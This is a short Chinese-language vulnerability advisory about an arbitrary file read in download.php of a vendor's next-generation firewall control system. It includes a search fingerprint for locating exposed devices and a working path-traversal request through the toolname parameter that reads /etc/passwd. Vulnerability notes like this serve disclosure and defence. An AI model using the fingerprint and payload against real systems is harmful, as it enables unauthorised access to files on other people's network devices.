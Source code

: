 # 中科网威 下一代防火墙控制系统 download.php 任意文件读取漏洞

# 中科网威 下一代防火墙控制系统 download.php 任意文件读取漏洞

## 漏洞描述

中科网威 下一代防火墙控制系统 download.php 任意文件读取漏洞, 攻击者通过漏洞可以读取服务器上的文件

## 漏洞影响

```
中科网威 下一代防火墙控制系统
```

## 网络测绘

```
body="Get_Verify_Info(hex_md5(user_string)."
```

## 漏洞复现

登录页面如下

![](/images/202202162251851.png)

漏洞存在于 download.php

![](/images/202202162251009.png)



任意点击后抓包，更改 **toolname** 参数

```plain
/download.php?&class=vpn&toolname=../../../../../../../../etc/passwd
```

![](/images/202202162251674.png)

